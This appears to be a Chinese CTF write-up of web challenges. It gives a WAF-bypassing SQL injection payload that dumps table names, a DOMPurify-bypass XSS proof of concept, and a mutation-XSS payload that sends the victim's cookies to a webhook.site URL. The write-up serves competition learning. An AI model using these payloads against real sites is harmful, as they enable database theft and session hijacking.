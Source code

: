# web

### blackmirror

#sql 

waf为镜像字符串,并替换--和#
```
?query=abcd
变成abcddcba
```

我的思路
```
+-镜像后变为+--+，即可注释字符串
```

```
A") union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()+-
```

---
官方题解
使用mysql special comment
```mysql
/*! <sql语句> */ 
```
这里的语句可以正常执行
`select /*!database()*/;`

payload

`%A") /*! <sql> */ +`

### mint
#xss

dompurify.sanitize(p)

poc
```html
<noscript><style>/*</noscript><img%20src%20onerror=alert(1)>*/
```

### mintmint
#xss
mxss,混淆svg和html的命名空间

```
<script>

let p = encodeURIComponent(`<svg><a><desc><a><table><a></table><style><![CDATA[</style></svg><a id="AA"></body><!-- ]]></svg><img src=1 onerror=eval(top.name)>-->`)

window.open('http://web/?p='+p,'fetch(`https://webhook.site/e1bf3e52-3e62-4be3-9cf6-04e4e1d651ed?a=`+top.document.cookie)')
</script>
```
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2025-03-21   03:20